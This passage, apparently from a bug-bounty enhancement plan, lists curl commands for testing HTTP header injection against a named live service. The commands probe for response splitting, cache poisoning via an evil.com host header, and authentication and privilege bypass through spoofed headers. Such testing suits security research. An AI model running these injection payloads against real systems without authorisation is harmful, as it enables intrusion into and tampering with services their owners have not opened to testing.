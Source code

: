 #### **Issue #320: HTTP Header Injection**
**Current Status**: Header injection often not exploitable
**Enhancement Strategy**:

1. **Test for HTTP Response Splitting**
   ```bash
   # Test for HTTP response splitting
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: Mozilla/5.0\r\nSet-Cookie: malicious=value"
   
   # Test with different line endings
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: Mozilla/5.0\nSet-Cookie: malicious=value"
   ```

2. **Test for Cache Poisoning**
   ```bash
   # Test for cache poisoning
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: evil.com\r\nHost: evil.com"
   
   # Test with different cache headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: evil.com" \
     -H "X-Original-Host: evil.com"
   ```

3. **Test for Security Control Bypass**
   ```bash
   # Test for user agent-based access control bypass
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: admin"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: root"
   ```

4. **Test for Authentication Bypass**
   ```bash
   # Test for authentication bypass via headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: authenticated" \
     -H "X-Auth: true"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: admin" \
     -H "X-Admin: true"
   ```

5. **Demonstrate Clear Exploitation Impact**
   - Show successful HTTP response splitting
   - Demonstrate cache poisoning
   - Prove security control bypass
   - Show authentication bypass

---